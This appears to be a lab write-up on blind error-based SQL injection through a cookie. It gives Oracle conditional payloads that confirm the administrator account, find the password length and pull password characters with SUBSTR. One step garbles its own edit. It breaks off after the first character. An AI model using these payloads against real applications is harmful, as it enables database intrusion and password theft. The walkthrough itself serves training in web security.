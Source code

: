 ```
'||(SELECT CASE WHEN ((SELECT SUBSTR(password,X,1) FROM users WHERE username='administrator')='X') THEN TO_CHAR(1/0) ELSE '' END FROM dual)-- -
```

Explanation:

In this lab, the cookie is again vulnerable to SQLi but there are no conditional responses. Instead we can trigger errors to leak data. If the condition is true, then the server returns a `500 internal server error`.

```
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--
```

As we can see, the condition is false, so it returns a `200 OK`.

![](/assets/images/SQLi/Pasted%20image%2020250930174011.png)

Now we use this query to leak data. In this query we will check if `administrator` is a valid username or not.

```
'||(SELECT CASE WHEN ((SELECT username FROM users WHERE username='administrator')='administrator') THEN TO_CHAR(1/0) ELSE '' END FROM dual)-- -
```

Since administrator is a valid username, it returns `500 internal error`.  

![](/assets/images/SQLi/Pasted%20image%2020250930173947.png)

We can change the `administrator` to `administrator`. Now it returns `200 OK`.

![](/assets/images/SQLi/Pasted%20image%2020250930173919.png)

Now we use this query to determine the lenght of the password.

```
'||(SELECT CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username='administrator')=X) THEN TO_CHAR(1/0) ELSE '' END FROM dual)-- -
```

Like before, we run 1-25 queries like before using intruder.

![](/assets/images/SQLi/Pasted%20image%2020250930175045.png)

Sorting the responses reveals that the length of password is 20.

![](/assets/images/SQLi/Pasted%20image%2020250930174957.png)

Now we using the `SUBSTR` function to determine each of the character of the password.

```
'||(SELECT CASE WHEN ((SELECT SUBSTR(password,X,1) FROM users WHERE username='administrator')='X') THEN TO_CHAR(1/0) ELSE '' END FROM dual)-- -
```

We find the first character of the password.

![](/assets/images/SQLi/Pasted%20image%2020250930174602.png)
